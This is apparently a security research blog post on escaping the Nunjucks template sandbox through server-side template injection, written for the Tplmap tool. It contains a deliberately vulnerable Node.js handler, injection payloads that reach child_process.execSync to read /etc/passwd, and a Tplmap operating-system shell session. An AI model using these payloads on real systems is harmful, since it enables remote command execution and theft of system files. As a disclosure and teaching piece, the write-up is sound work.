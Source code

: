 ```yaml
---
comments: true
date: 2016-08-02 12:58:30
layout: post
slug: 2016-08-02-sandbox-break-out-nunjucks-template-engine
title: Sandbox Breakout - A View of the Nunjucks Template Engine
categories:
- Security
- Vulnerabilities
- Web Apps
tags:
- CVE-2014-5073
- advisory
- vmturbo
- pentesting
- security
- vulnerability
- rce
- cgi
- command execution 
---
```


Introduction
------------

This write-up describes a sandbox escape technique on Nunjucks template engine implemented by [Tplmap](https://github.com/epinna/tplmap), a tool to exploit Server-Side Template Injection vulnerabilities (SSTI) and achieve remote command execution on the operating system. Thanks to [Andrea](https://github.com/cyrus-and) who has worked with me on this analysis.

Nunjucks
--------

[Nunjucks](https://mozilla.github.io/nunjucks/) is a template engine for by Jinja2 used to develop web applications on Node.js web frameworks as [Express](http://expressjs.com/) or [Connect](https://github.com/senchalabs/connect#readme). The snippet from a Connect application serves a web page (`http://localhost:15004/page?name=John`) which suffers from Server-Side Template Injection vulnerability.

```javascript
app.use('/page', function(req, res){
  if(req.url) {
    var url_parts = url.parse(req.url, true);
    var name = url_parts.query.name;
    
    // Include user-input in the template
    var template = 'Hello ' + name + '!'; 
    
    rendered = nunjucks.renderString(
      str = template
    );
    res.end(rendered);
  }
});
```


{% raw %}

The user controllable `name` GET parameter is concatenated to the template string instead of being passed as `context` argument, introducing the SSTI vulnerability. The vulnerable parameter can be detected injecting a basic operation which is evaluated at rendering time.

```bash
$ curl -g 'http://localhost:15004/page?name={{7*7}}'
Hello 49!
$
```

The vulnerability does not affect Nunjucks itself, but is introduced when the user’s input is directly concatenated to a template.

Sandbox escape
--------------

As many other template engines, Nunjucks template code runs in a sandboxed environment. Any global object is stripped out from the environment, to limit the surface which could be used to break out of the sandbox and execute arbitrary JavaScript. You can use Tplmap `--tpl-shell` option to inspect the sandbox surface.

Calling the global object `console` from within the template raises an undefined exception.

```javascript
{{console.log(1)}}

// Template render error: (unknown path)
//  Error: Unable to call `console["log"]`, which is undefined or falsey
```

Luckily for the attacker the documentation describes three utility functions [range, cycler, and joiner](https://mozilla.github.io/nunjucks/templating.html#global-functions) which are the only callables from within the template.

The `constructor` property of any function is the [Function constructor](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Function) which allows to create a new function starting from the body string. 

```javascript
{{range.constructor("console.log(123)")()}}
// 123
```

The code above is correctly evaluated. The operating system access instead is not straightforward since `require()` cannot be used to import standard modules without triggering an exception.

```javascript
{{range.constructor("return require('fs')")()}}

//Template render error: (unknown path)
//  ReferenceError: require is not defined
```

The missing `require`constraint can be bypassed using `global.process.mainModule.require`. In the snippet below, the module `fs` is imported and printed.

```javascript
{{range.constructor("return global.process.mainModule.require('fs')")()}}

[object Object]
```

Finally, the exploit to access the underlying operating system can be finalised executing `tail /etc/passwd` via the `child_process.execSync()` method.

```javascript
{{range.constructor("return global.process.mainModule.require('child_process').execSync('tail /etc/passwd')")()}}

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
```

Tplmap integration
------------------

The sandbox escape technique has been integrated in Tplmap Nunjucks plugin to compromise the target in a fully automated way.

```bash
$ ./tplmap.py -u http://localhost:15004/page?name=* --engine Nunjucks --os-shell
[+] Tplmap 0.1
    Automatic Server-Side Template Injection Detection and Exploitation Tool

[+] Found placeholder in GET parameter 'name'
[+] Nunjucks plugin is testing rendering with tag '{{*}}'
[+] Nunjucks plugin has confirmed injection with tag '{{*}}'
[+] Tplmap identified the following injection point:

  Engine: Nunjucks
  Injection: {{*}}
  Context: text
  OS: linux
  Technique: render
  Capabilities:

   Code evaluation: yes, javascript code
   Shell command execution: yes
   File write: yes
   File read: yes
   Bind and reverse shell: yes

[+] Run commands on the operating system

linux $ tail /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
```

[Tplmap](https://github.com/epinna/tplmap) support of new template engines can be easily extended writing plugins. All contributions are greatly appreciated, both code or ideas of sandbox escapes of new template engines. Submit your sandbox break-out idea or code via Github issues and pull request.

{% endraw %}
